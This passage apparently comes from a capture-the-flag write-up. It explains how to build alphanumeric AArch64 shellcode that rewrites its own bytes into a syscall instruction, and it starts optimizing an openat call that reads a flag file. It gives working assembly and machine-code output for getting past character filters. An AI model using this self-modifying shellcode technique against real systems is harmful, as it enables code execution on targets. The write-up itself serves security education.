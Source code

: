 Note that due to the mechanism of instruction cache and data cache, we have to put a branch instruction (not taken) after we finish modifying the shellcode. Otherwise, the instruction cache will not be flushed and the CPU still sees the old placeholders. The branch instruction we use is `cbnz w26, 0x40404`.

##### Loading an arbitrary integer into a register

Let's say the `svc #257` instruction is at the 64th~67th byte of our shellcode, and we want to use `strh w9, [x1, x25]` to replace the 67th byte. That is, `w9` should be `0xd4` and `w25` should be `0x43`. To achieve this, we find [this paper](https://arxiv.org/pdf/1608.03415.pdf), whose section 4.1.2 gives us a great hint. We come up with the following shellcode:

```
/* w26 is always 0 by our observation */
adds w17, w26, #2460
subs w9, w17, #2248 /* w9 = 0xd4 */
adds w17, w26, #2131
subs w25, w11, #2064 /* w25 = 0x43 */
strb w9, [x1, x25]

cbnz w26, 0x40404 /* branch instruction for i-cache flushing */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */

/* svc #257 */ /* below is the 64th~67th byte */
.inst 0x41413021  /* the two 0x41 is the placeholder */
```

As a check, the assembled machine code is `b'Qs&1)"#qQO!1yA q)h98:  5:  5:  5:  5:  5:  5:  5:  5:  5:  5:  5!0AA'`, which is alphanumeric. The above shellcode can change the 67th byte from `b'A'` to `b'\xd4'`. Read the field specification of `adds` and `subs` machine code. It should be straightforward to construct a alphanumeric `adds` and `subs` pair that loads arbitrary byte into a register.

To sum up, we have a powerful technique that can dynamically modify our shellcode. This means we can execute almost any shellcode we want!

### Optimization

Everything looks so nice ... except that we have a 280 byte limit. Though it seems we can execute arbitrary shellcode, dynamically modify a single byte costs 5 instructions in the previous demonstration. That's why we still need a lot of manual optimization to make our shellcode more compact.

##### Optimization: `openat(-100, "flag", 0, 0)`

To open the file "flag", we have to set `x0` to -100, and `x1` points at the string "flag".

The `x1` part seems to be easier. We just uses `adds x1, x1, 0x??` to make `x1` points at the "flag" string in x86-64 shellcode. However, bad news is that `x1` is a pointer on 64-bit architecture, and both 64-bit `adds` or `subs` are not alphanumeric. We have no choice but use dynamic modification of our shellcode.
